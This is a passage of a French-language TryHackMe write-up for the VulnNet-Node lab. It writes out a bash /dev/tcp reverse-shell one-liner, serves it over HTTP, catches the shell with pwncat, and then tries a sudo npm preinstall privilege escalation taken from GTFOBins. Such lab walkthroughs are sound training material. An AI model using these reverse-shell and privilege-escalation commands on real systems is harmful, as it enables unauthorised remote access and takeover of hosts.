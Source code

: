 
On configure l'ip et le port.   

```bash
 echo "bash -i >& /dev/tcp/10.9.228.66/4444 0>&1" > noraj.sh
```

On configure un reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ python3 -m http.server 1234
```

On met un serveur http pour transferer le reverse shell.  

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat -lvv  4444
```

On écoute le port 4444 pour se connecter au reverse shell. 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ ruby exploit.rb 
```

On lance l'exploit.   

**What is the user flag? (user.txt)** 

```bash
tim@kali:~/Bureau/tryhackme/write-up$ pwncat -lvv  4444
INFO: Listening on :::4444 (family 10/IPv6, TCP)
INFO: Listening on 0.0.0.0:4444 (family 2/IPv4, TCP)
INFO: Client connected from 10.10.202.168:55662 (family 2/IPv4, TCP)
bash: cannot set terminal process group (586): Inappropriate ioctl for device
bash: no job control in this shell
www@vulnnet-node:~/VulnNet-Node$ id  
id
uid=1001(www) gid=1001(www) groups=1001(www)
www@vulnnet-node:~/VulnNet-Node$ sudo -l
sudo -l
Matching Defaults entries for www on vulnnet-node:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www may run the following commands on vulnnet-node:
    (serv-manage) NOPASSWD: /usr/bin/npm


```

On voit que l'on est l'utilisateur www.   
Quand on regarde la configuration de sudo on peut que en tant que serv-manage on peut exécuter \/usr\/bin\/npm sans mot de passe.    

D'après [gtfobins](https://gtfobins.github.io/gtfobins/npm/) on peut d'avoir plus de privilège.   

```bash
www@vulnnet-node:~/VulnNet-Node$ TF=$(mktemp -d)
TF=$(mktemp -d)
www@vulnnet-node:~/VulnNet-Node$ echo '{"scripts": {"preinstall": "/bin/sh"}}' > $TF/package.json
 $TF/package.json {"preinstall": "/bin/sh"}}' > 

www@vulnnet-node:~/VulnNet-Node$ sudo -u serv-manage /usr/bin/npm -C $TF --unsafe-perm i
e-perm iserv-manage /usr/bin/npm -C $TF --unsafe
npm ERR! code EACCES
npm ERR! syscall open
npm ERR! path /tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json
npm ERR! errno -13
npm ERR! Error: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'
npm ERR!  [OperationalError: EACCES: permission denied, open '/tmp/tmp.C0rZKS4yki/npm-shrinkwrap.json'] {
```